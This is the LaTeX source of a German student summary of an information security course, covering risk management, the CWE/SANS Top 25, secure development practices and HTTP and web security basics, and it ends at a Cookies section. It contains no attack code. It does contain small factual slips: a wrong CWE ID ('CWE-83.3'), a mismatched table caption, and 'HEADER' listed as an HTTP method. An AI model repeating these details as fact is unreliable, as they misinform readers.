% !TeX spellcheck = de_CH
% /*
%  * ----------------------------------------------------------------------------
%  * "THE BEER-WARE LICENSE" (Revision 42):
%  * <michi.wieland@hotmail.com> wrote this file. As long as you retain this notice you
%%  * can do whatever you want with this stuff. If we meet some day, and you think
%  * this stuff is worth it, you can buy me a beer in return. Michael Wieland
%  * ----------------------------------------------------------------------------
%  */

\documentclass[
a4paper,
oneside,
10pt,
fleqn,
headsepline,
toc=listofnumbered, 
bibliography=totocnumbered]{scrartcl}

% deutsche Trennmuster etc.
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[english, ngerman]{babel} % \selectlanguage{english} if  needed
\usepackage{lmodern} % use modern latin fonts

% Custom commands
\newcommand{\AUTHOR}{Michael Wieland}
\newcommand{\INSTITUTE}{Hochschule für Technik Rapperswil}
\newcommand{\GITHUB}{https://github.com/michiwieland/hsr-zusammenfassungen}
\newcommand{\LICENSEURL}{https://en.wikipedia.org/wiki/Beerware}
\newcommand{\LICENSE}{
"THE BEER-WARE LICENSE" (Revision 42):
<michi.wieland@hotmail.com> wrote this file. As long as you retain this notice you
can do whatever you want with this stuff. If we meet some day, and you think
this stuff is worth it, you can buy me a beer in return. Michael Wieland	
}

% Jede Überschrift 1 auf neuer Seite
\let\stdsection\section
\renewcommand\section{\clearpage\stdsection}

% Multiple Authors
\usepackage{authblk}

% Include external pdf
\usepackage{pdfpages}

% Layout / Seitenränder
\usepackage{geometry}

% Inhaltsverzeichnis
\usepackage{makeidx} 
\makeindex

\usepackage{url}
\usepackage[pdfborder={0 0 0}]{hyperref}
\usepackage[all]{hypcap}
\usepackage{hyperxmp} % for license metadata

% Glossar und Abkürzungsverzeichnis
\usepackage[acronym,toc,nopostdot]{glossaries}
\glossarystyle{altlist}
\usepackage{xparse}
\DeclareDocumentCommand{\newdualentry}{ O{} O{} m m m m } {
	\newglossaryentry{gls-#3}{
		name={#4 : #5},
		text={#5\glsadd{#3}},
		description={#6},
		#1
	}
	\makeglossaries
	\newacronym[see={[Siehe:]{gls-#3}},#2]{#3}{#4}{#5\glsadd{gls-#3}}
}
\makeglossaries

% Mathematik
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{enumitem}

% Images
\usepackage{graphicx}
\graphicspath{{images/}} % default paths

% Boxes
\usepackage{fancybox}

%Tables
\usepackage{tabu}
\usepackage{booktabs} % toprule, midrule, bottomrule
\usepackage{array} % for matrix tables

% Multi Columns
\usepackage{multicol}

% Header and footer
\usepackage{scrlayer-scrpage}
\setkomafont{pagehead}{\normalfont}
\setkomafont{pagefoot}{\normalfont}
\automark*{section}
\clearpairofpagestyles
\ihead{\headmark}
\ohead{\AUTHOR}
\cfoot{\pagemark}

% Pseudocode
\usepackage{algorithmic}
\usepackage[linesnumbered,ruled]{algorithm2e}

% Code Listings
\usepackage{listings}
\usepackage{color}
\usepackage{beramono}

\definecolor{bluekeywords}{rgb}{0,0,1}
\definecolor{greencomments}{rgb}{0,0.5,0}
\definecolor{redstrings}{rgb}{0.64,0.08,0.08}
\definecolor{xmlcomments}{rgb}{0.5,0.5,0.5}
\definecolor{types}{rgb}{0.17,0.57,0.68}

\lstdefinestyle{visual-studio-style}{
	language=[Sharp]C,
	columns=flexible,
	showstringspaces=false,
	basicstyle=\footnotesize\ttfamily, 
	commentstyle=\color{greencomments},
	morekeywords={partial, var, value, get, set},
	keywordstyle=\bfseries\color{bluekeywords},
	stringstyle=\color{redstrings},
	breaklines=true,
	breakatwhitespace=true,
	tabsize=4,
	numbers=left,
	numberstyle=\tiny\color{black},
	frame=lines,
	showspaces=false,
	showtabs=false,
	escapeinside={£}{£},
}

\definecolor{DarkPurple}{rgb}{0.4, 0.1, 0.4}
\definecolor{DarkCyan}{rgb}{0.0, 0.5, 0.4}
\definecolor{LightLime}{rgb}{0.3, 0.5, 0.4}
\definecolor{Blue}{rgb}{0.0, 0.0, 1.0}

\lstdefinestyle{cevelop-style}{
	language=C++,  
	columns=flexible,
	showstringspaces=false,     
	basicstyle=\footnotesize\ttfamily, 
	keywordstyle=\bfseries\color{DarkPurple},
	commentstyle=\color{LightLime},
	stringstyle=\color{Blue}, 
	escapeinside={£}{£}, % latex scope within code      
	breaklines=true,
	breakatwhitespace=true,
	showspaces=false,
	showtabs=false,
	tabsize=4,
	morekeywords={include,ifndef,define},
	numbers=left,
	numberstyle=\tiny\color{black},
	frame=lines,
}

\lstdefinestyle{eclipse-style}{
	language=Java,  
	columns=flexible,
	showstringspaces=false,     
	basicstyle=\footnotesize\ttfamily, 
	keywordstyle=\bfseries\color{DarkPurple},
	commentstyle=\color{LightLime},
	stringstyle=\color{Blue}, 
	escapeinside={£}{£}, % latex scope within code      
	breaklines=true,
	breakatwhitespace=true,
	showspaces=false,
	showtabs=false,
	tabsize=4,
	morekeywords={length},
	numbers=left,
	numberstyle=\tiny\color{black},
	frame=lines,
}
\lstset{style=eclipse-style}



% Theorems \begin{mytheo}{title}{label}
\usepackage{tcolorbox}
\tcbuselibrary{theorems}
\newtcbtheorem[number within=section]{definiton}{Definition}%
{fonttitle=\bfseries}{def}
\newtcbtheorem[number within=section]{remember}{Merke}%
{fonttitle=\bfseries}{rem}
\newtcbtheorem[number within=section]{hint}{Hinweis}%
{fonttitle=\bfseries}{hnt}

% Dokumentinformationen
\newcommand{\SUBJECT}{Zusammenfassung}
\newcommand{\TITLE}{Informationssicherheit 3}

\loadglsentries{glossar}

% pdf metadata
\hypersetup{
	pdfauthor={\AUTHOR},
	pdftitle={\SUBJECT \TITLE},
	pdfcopyright={\LICENSE},
	pdflicenseurl={\LICENSEURL}
}

\begin{document}
	
% Front page
\title{\TITLE}
\subject{\SUBJECT}
\author{\AUTHOR}
\affil{\INSTITUTE}
\date{\today}
\maketitle

\vfill

% Participate
\paragraph{Mitmachen} \hfill \\
Falls Du an diesem Dokument mitarbeiten willst, kannst Du das Dokument
auf GitHub unter \url{\GITHUB} forken.

% Licence
\paragraph{Lizenz} \hfill \\
\LICENSE

% Table of contents
\tableofcontents


% Glossar and acronyms (if included \loadglsentries{glossar})
\printglossary[type=\acronymtype]
\printglossary
\glsaddall


\section{Grundlagen}

\subsection{Information Security Managment}

Das Information Security Manangement beschreibt den Prozess zur Aufrechterhaltung der Vertraulichkeit, Echtheit und Verfügbarkeit von Informationen.

\subsubsection{Gefährdungskatalog}

\begin{itemize}
	\item G1: Höhere Gewalt
	\item G2: Organisatorische Mängel: Fehlende Regelungen (Passwort/PIN, Beaufsichtigung der Geräte, Updating, Patching, Malware Detection), Unzureichende Ausbildung
	\item G3: Menschliche Fehlhandlungen: Regelungen werden nicht eingehalten, Blindes Vertrauen, Bedienungsfehler
	\item G4: Technisches Versagen: Fehler in Schutzmassnahmen, unzureichende Verschlüsselung, Versteckte Funktionen.
	\item G5: Vorsätzliche Handlungen
\end{itemize}

\subsubsection{Massnahmenkatalog}

\begin{itemize}
	\item M1: Infrastruktur
	\item M2: Organisation
	\item M3: Personal
	\item M4: Hardware / Software
	\item M5: Kommunikation (Netze)
	\item M6: Notfallvorsorge
\end{itemize}

\subsubsection{Risikomanagement}

Das Budget für Sicherheit ist oftmals eher knapp und so ist man gezwungen, eine Risikoanalyse durchzuführen und das Risiko mit den anfallenden Kosten abzuwiegen.

\paragraph{Risiko} 

Das Risiko ist die Möglichkeit, dass eine Bedrohung eine Schwachstelle ausnutzen und dadurch der Institution Schaden zufügen könnte. Das Risiko ist eine Kombination aus Wahrscheinlichkeit eines Ereignisses und dessen Auswirkung. 


\begin{remember}{Risiko}{}
	Risiko = Eintrittswahrscheinlichkeit (1-5) $\cdot$ Schadenspotential (1-5) \\
	Risk = Value $\cdot$ Threat $\cdot$ Vulnerability
\end{remember}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.5\linewidth]{images/ims_cost}
	\caption{Risikoanalyse und Kosten}
	\label{fig:imscost}
\end{figure}

\newpage

\subsubsection{Schadensindikatoren}
Die folgenden Indikatoren haben folgende Schadenswerte zur Folge.
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.9\linewidth]{images/ims_schadensindikatoren}
	\caption{Schadensindikatoren}
	\label{fig:imsschadensindikatoren}
\end{figure}


\subsection{Rechtliches}
Das Datenschutzgesetzt regelt den Umgang mit personenbezogenen Daten auf nationaler Ebene. Zusätzlich habe viele Branchen weitere Richtlinien für den Umgang mit sensitven Daten. 

\clearpage

\subsection{Bedrohungen}
Angreifer unterscheiden sich in Expertise und Motivation für eine Attacke.
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/ims_attack_motivation}
	\caption{Angreifer und deren Motivation}
	\label{fig:imsattackmotivation}
\end{figure}


\begin{description}
	\item[Patriot Act] Vom US Kongress als Reaktion auf die Terroranschlänge vom 11.9.2001 verabschiedete Regelung die es erlaubt, Telefongespräche und Internetverbindungen zu überwachen. (Collect it all)
	\item[NSA PRISM Project] \hfill \\
	PRISM ist ein Programm zur Überwachung und Auswertung elektronischer Medien und elektronisch gespeicherter Daten. Die Daten wurden zwischen 2007 und 2013 bei verschiedenen Provier (Microsoft, Yahoo, Google, Facebook, PalTalk, YouTube, Skype, AOL, Apple) gesammelt.
	\item[NSA QUANTUM Project] \hfill \\
	Durch das QUANTUM Projekt ist es der NSA möglich, nahezu jeden Rechner unbemerkt mit Spähsoftware zu bestücken. QUANTUM ist eine Sammlung an Hacking Tools.
	\item[NSA XKeyScore Project] \hfill \\
	XKeyScore ist eine Software, mit deren Hilfe gesammelte Daten durchsucht werden können. XKeyScore wird von den Five Eyes (USA, GB, Australien, Neuseeland und Kanada) sowie Deutschland eingesetzt.
\end{description}

\section{Software Security}
Heutzutage hat man viel mehr Sicherheitslücken in Software, nicht zu letzt wegen folgenden Punkten:
\begin{itemize}
	\item Software wird umfangreicher und oft auch komplexer
	\item Immer mehr Geräte werden an das Internet angeschlossen. Die Anzahl Attack Vectoren steigen an. 
	\item Durch SOA (Serviceorientierte Architektur) sind Legacy Applikationen über das Internet erreichbar, obschon diese nie dafür konzipiert wurden.
	\item Browsers lassen sich mit Plugins von unbekannten Herrsteller erweitern.
\end{itemize}

\subsection{CWE/SANS Top 25}
\begin{table}[h]
	\centering
	\begin{tabu} to \linewidth {l l X}
		\toprule
		Rank & ID & Name \\
		\midrule
		1 & CWE-89 &	Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') \\
		2 &	CWE-83.3 & Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') \\
		3 &	CWE-120 & Buffer Copy without Checking Size of Input ('Classic Buffer Overflow') \\
		4 & CWE-79 & Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') \\
		5 & CWE-306 & Missing Authentication for Critical Function \\
		6 & CWE-862 & Missing Authorization \\
		7 & CWE-798 & Use of Hard-coded Credentials \\
		8 & CWE-311 & Missing Encryption of Sensitive Data \\
		9 & CWE-434 & Unrestricted Upload of File with Dangerous Type \\
		10 & CWE-807 & Reliance on Untrusted Inputs in a Security Decision \\
		11 & CWE-250 & Execution with Unnecessary Privileges \\
		12	& CWE-352 &	Cross-Site Request Forgery (CSRF) \\
		13	& CWE-22 & 	Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') \\
		14	& CWE-494 &	Download of Code Without Integrity Check \\
		15	& CWE-863 &	Incorrect Authorization \\
		16	& CWE-829 & Inclusion of Functionality from Untrusted Control Sphere \\
		17	& CWE-732 &	Incorrect Permission Assignment for Critical Resource \\
		18	& CWE-676 &	Use of Potentially Dangerous Function \\
		19	& CWE-327 &	Use of a Broken or Risky Cryptographic Algorithm \\
		20	& CWE-131 & Incorrect Calculation of Buffer Size \\
		21	& CWE-307 &	Improper Restriction of Excessive Authentication Attempts \\
		22	& CWE-601 &	URL Redirection to Untrusted Site ('Open Redirect') \\
		23	& CWE-134 &	Uncontrolled Format String \\
		24	& CWE-190 &	Integer Overflow or Wraparound \\
		25	& CWE-759 &	Use of a One-Way Hash without a Salt \\
		\bottomrule
	\end{tabu}
	\caption{Laufzeitverhalten von Datenstrukturen}
\end{table}

\subsection{Defekte}
Man unterscheidet zwischen zwei Typen von Defekten. In praktischer Software ist die Verteilung der beiden Typen etwas 50/50.
\begin{description}
	\item[Bug] Fehler der während der Implementationphase eingebaut wird. (Buffer Overflows, Race Conditions, Unsafe System Calls)
	\item[Flaw] Fehler in der Architektur während der Designphase. Flaws zu finden gestaltet sich als sehr schwierig. (Method Overriding, Error Handling, Type Safety Confusion)
\end{description}

\subsection{Drei Säulen}
Die Drei Säulen der Software Security sind:

\begin{description}
	\item[Risk Managment] Business Context verstehen, Business und technische Risiken erkennen, Risiko priorisieren und bewerten, Umgang mit Risiko definieren, Lösungen suchen und auf Korrektheit validieren.
	\item[Best Practices] für die Entwicklung sicherere Software
	\item[Knowledge] Man benötigt Wissen über die möglichen Schwachstellen und die möglichen Fixes.
\end{description}

\subsubsection{Risiko Management}
Beim Risikomanagement geht es in erster Linie darum, die Risiken zu gewichten und mit den Kosten abzuwiegen. Wie gross ist den Schaden wenn ein bestimmter Software Teil nicht gesichert ist, wie gross ist die Eintrittwahrscheinlichkeit und der Impact.

\subsubsection{Best Practices}
\begin{itemize}
	\item Code und Architekur Reviews (Statische Code Checker gegen Bugs und Flaws)
	\item Penetration Testing (z.B mit Fuzzer). Dies wird relativ spät im Entwicklungsprozess durchgeführt.
	\item Risk Based Security Tests
	\item Aufschreiben von möglichen Abuse Cases
	\item Security Requirements bereits in der Analysephase definieren.
	\item Security Operation
\end{itemize}

\subsubsection{Knowledge}
\begin{description}
	\item[Prescriptive Knowledge] Software Prinzipien (z.B Principle of Least Privilege), Guidelines und Regeln
	\item[Diagnostic Knowledge] Vulnerabilities, Exploits, Attack Patterns
	\item[Historical Knowledge] Historical Risks
\end{description}

\clearpage

\subsection{Best Practices in SE-Process}
Je früher eines Massnahme durchgeführt wird, desto weniger muss nachgebessert werden. (weniger Kosten pro Defekt)
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/se_bestpracitce_security}
	\caption{Security Best Practices in den einzelnen SE Phasen}
	\label{fig:sebestpracitcesecurity}
\end{figure}

\subsection{Tools}
Folgende Tools helfen, um potentielle Sicherheitslücken in Software zu finden. Dabei kann es aber zu \lstinline|false| Positives und leider auch \lstinline|false| Negatives kommen. Diese Tools ersetzten daher keinen Code-Review.

\begin{itemize}
	\item Sourceanalyzer (HP Fortify)
	\item Flawfinder
	\item Coverity SAVE
	\item Checkliste für Java: \url{https://www.securecoding.cert.org/confluence/display/java/SEI+CERT+Oracle+Coding+Standard+for+Java}
\end{itemize}

\clearpage

\subsection{Vorgehen}
Eine Architektur Risikoanalyse gliedert sich grob in drei Kategorien. (grün)
\begin{enumerate}
	\item Architektur-Übersicht erstellen. Dies hilft jedoch nicht gegen kreative Attacken und Zero Days.
	\item Architektur mittels Checklisten auf generelle Schwachstellen prüfen
	\item Herausfinden, wie die Software ungefähr funktioniert. Gibt es Widersprüche mit der Übersicht (Punkt 1), ist dies ein Hinweis, dass die Architektur inkonsistent ist und Schwachstellen hat. 
	\item Schwachstellen Analyse: Schwachstellen in eingesetzten Frameworks
\end{enumerate}
\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/architectural_risk_analysis}
	\caption{Architectural Risk Analysis}
	\label{fig:architecturalriskanalysis}
\end{figure}

\subsection{Microsoft Security Development Lifecycle}
Der Microsoft SDL wird in drei Kernphasen eingeteilt:
\begin{enumerate}
	\item Education: fortlaufende Ausbildung der Angestellten
	\item Continuous Process Improvement: Ständige Überprüfung und Verbesserung des SDL Prozesses.
	\item Accountability: Archivierung von Ergebnissen und vorausplanen von Security Szenarien
\end{enumerate}

\begin{figure}[h!]
	\centering
	
\includegraphics[width=0.7\linewidth]{images/microsoft_sdl}
	\caption{Microsoft Security Development Lifecycle}
	\label{fig:microsoftsdl}
\end{figure}

\section{Web Security}
\begin{table}[h]
	\centering
	\begin{tabu} to \linewidth {X X}
		\toprule
		Angriff & Gegenmassnahme \\
		\midrule
		XSS & HTML Entities \\
		CSRF & XSRF-Token \\
		\bottomrule
	\end{tabu}
	\caption{Angriff und Massnahmen in Websecurity}
\end{table}

\subsection{HTTP Basics}
HTTP ist zustandslos, das bedeutet, dass der Server jede Transaktion ohne Bezug zu früheren Anfragen behandelt. Eine Zuordnung zu einem Benutzer ist daher nativ nicht möglich. Um eine Session zu ermöglichen, gibt es verschiedene Möglichkeiten:

\begin{description}
	\item[Cookies:] Mitsenden eines Identifiers im HTTP Headers an den Server (meist beste Lösung)
	\item[URL Extension:] Senden einer ID als Teil der URL (meist GET-Parameter)
	\item[Hidden Fields:] Der Status wird als Hidden Field über ein Webform per POST an den Server übermittelt.
	\item[Weitere:] (Kerberos/NTLM, TLS/SSL Zertifikate etc.)
\end{description}

Eine Verbindung besteht immer aus einem HTTP Request und Response. Jeder Request verwendet eine der folgenden HTTP Methoden:
\begin{description}
	\item[GET:] normal use 
	\item[POST:] submit data (login, forms)
	\item[HEADER:] metadatan einer Datei (u.a. Änderungsdatum: oft search engines)
	\item[PUT:] upload files (webdav)
	\item[OPTIONS:] list available methods in webserver
	\item etc.
\end{description}

\subsection{Redirects}
Wenn der Server mit einem 200 OK antwortet, ist der Client angehalten, die POST Daten im Cache zu behalten. Wird vom Server jedoch ein Redirect (302) durchgeführt, wird nichts gespeichert und die POST Daten können nicht ein zweites Mal übermittelt werden. (Back Button Relogin Vulnerability)

\subsection{Cookies}
\begin{figure}[h!]
	\centering
